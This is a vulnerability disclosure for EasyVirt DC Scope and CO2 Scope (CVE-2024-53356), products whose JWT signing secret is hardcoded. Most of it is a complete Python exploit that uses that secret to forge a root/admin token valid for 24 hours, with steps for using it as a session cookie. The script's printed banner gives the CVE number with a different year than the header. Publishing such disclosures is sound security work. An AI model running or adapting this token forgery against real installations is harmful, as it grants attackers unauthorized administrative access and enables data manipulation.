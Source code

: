 # [CVE-2024-53356] - EasyVirt - Weak JWT Secret
#### Exploit Author: [Aurelien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 10-25-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions:
- DC Scope <= 8.6.0
- CO2 Scope <= 1.3.0


## Description:
Weak JWT Secret vulnerabilitiy in EasyVirt **DCScope <= 8.6.0** and **CO2Scope <= 1.3.0** allows remote attackers to generate JWT for privilege escalation. The HMAC secret used for generating tokens is hardcoded as "somerandomaccesstoken". A weak HMAC secret poses a risk because attackers can use the predictable secret to create valid JSON Web Tokens (JWTs), allowing them access to important information and actions within the application.

## Steps to reproduce:
1. Execute following script:
```py
import base64
import hmac
import hashlib
import json
import time

secret_key = 'somerandomaccesstoken'
iat = int(time.time())
# 24 hours validity
exp = iat + (24 * 60 * 60)

header = {
    "alg": "HS256",
    "typ": "JWT"
}

payload = {
    "user": "root",
    "role": "admin",
    "iat": iat,
    "exp": exp
}

def base64_url_encode(data):
    return base64.urlsafe_b64encode(data.encode()).decode().rstrip("=")

encoded_header = base64_url_encode(json.dumps(header))
encoded_payload = base64_url_encode(json.dumps(payload))
jwt_without_signature = f"{encoded_header}.{encoded_payload}"

signature = hmac.new(secret_key.encode(), jwt_without_signature.encode(), hashlib.sha256).digest()
encoded_signature = base64.urlsafe_b64encode(signature).decode().rstrip("=")

jwt_token = f"{jwt_without_signature}.{encoded_signature}"
print('+-------------------------------------------+')
print('| Token generated to exploit CVE-2025-53356 |')
print('|                Validity: 24h              |')
print('+-------------------------------------------+\n')
print('Token:', jwt_token)
```
2. Uses the generated cookie

## IMPACT:
An attacker can gain unauthorized access by forging valid JWTs and impersonating legitimate users. This can lead to the manipulation of sensitive data and privilege escalation.
